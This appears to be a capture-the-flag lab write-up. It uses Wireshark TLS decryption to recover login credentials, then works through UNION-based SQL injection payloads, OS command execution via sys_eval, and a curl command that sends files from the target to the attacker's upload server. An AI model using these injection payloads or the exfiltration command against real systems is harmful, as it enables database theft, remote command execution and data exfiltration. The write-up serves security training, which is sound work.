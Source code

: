 
## *Wireshark (TASK 1)*
>	- Loading the TLS log file into the Pre-Master-Secret log filename within `Edit>Preferences>Protocols>TLS` to decrypt the traffic.![](wireshark-config.png)
>	- Loading the .pcap file and analyzing the traffic by applying a filter to show HTTP traffic.![](http-filter.png)
>	- The POST request to the login page when decrypted should contain the username and password.![](user-creds.png)
## *TASK 2*
>	- Relational Database Management System
>	- Create Read Update Delete
>	- Structured Query Language
## *SQLi (TASK 3)*
>	- Using the found credentials `lannister:hrpTfL42wMv3` to login to the product page on `http://10.10.21.105:8000/login.php`.![](logged-in.png)
>	- Testing for the presence of In-Band SQLi vulnerability with `'`.![](inband-sqli.png)
>	- Enumerating for the number of columns returned using `' UNION SELECT 1,2 -- //`.![](num-cols-1.png)![](num-cols-2.png)
>	- Get the database name using `' UNION SELECT 1,2,3,4,database() -- //`.![](db-name.png)
>	- Using the database name, get the table names inside it using `' UNION SELECT 1,2,3,4,table_name FROM information_schema.tables -- //`. A lot of tables are shown, only showing a small portion.![](table-name-1.png)![](table-name-2.png)![](table-name-3.png)
>	- Table `easter_egg` is interesting, getting the columns using `' UNION SELECT 1,2,3,4,column_name FROM information_schema.columns WHERE table_name = 'easter_egg' -- //`.![](easter-egg-cols.png)
>	- Querying the table using `' UNION SELECT 1,2,3,url_path,message FROM easter_egg -- //`.![](easter-egg-table.png)
>	- Going to the path found.![](easter-egg.png)
>	- Going back the table names found, the tables `users` and `unlisted_products` are interesting.
>	- Check the `unlisted_products` table since the name is implies private.
>	- Getting the column names using `' UNION SELECT 1,2,3,4,column_name FROM information_schema.columns WHERE table_name = 'unlisted_products' -- //`.![](table-cols.png)
>	- Querying the table with the columns using `' UNION SELECT * FROM unlisted_products -- //`.![](unlisted-prod.png)
## *TASK 4*
>	- Testing for SQLi vulnerability within the URL of the path found using `/os_sqli.php?user=lannister' -- //`.![](sqli-vuln.png)
>	- Getting the number of columns with `/os_sqli.php?user=lannister' UNION SELECT 1,2,3,4,5 -- //`.![](vuln-path-cols.png)
>	- Check shell command executing using `/os_sqli.php?user=lannister' UNION SELECT 1,2,3,4,sys_eval('whoami') -- //`.![](shell-exec-test.png)
>	- Checking the working directory using `/os_sqli.php?user=lannister' UNION SELECT 1,2,3,4,sys_eval('pwd') -- //`.![](working-dir.png)
## *TASK 5*
>	- Enumerating the machine to view directories using, `/os_sqli.php?user=lannister' UNION SELECT 1,2,3,4,sys_eval('ls /home/receipts') -- //`the directory `/home/recipes/` contain encrypted files.![](recipe-files.png)
>	- Going back to the table names found, the table `transactions` is interesting in this case.
>	- Getting the column names and enumerating the content using the same process as before.![](transactions-table.png)
>	- The receiver's address is `tWuNGTaSBNJq7mvxF5AetFg4B2VE41MnYs`.
>	- To decrypt the file, we have to transfer the entire directory first to the attacking machine.
>	- Using Python's `uploadserver` module on the attacking machine
>		- Create a directory to upload in.
>		- start the server using `sudo python3 -m uploadserver 443`.
>		- Using `curl -X POST https://10.9.224.110/upload -F 'files=@/home/receipts/<file-name>'` command inside the `/os_sqli.php?user=lannister' UNION SELECT 1,2,3,4,sys_eval('') -- //` command on each file in the directory.
>		- ![](file-upload.png)
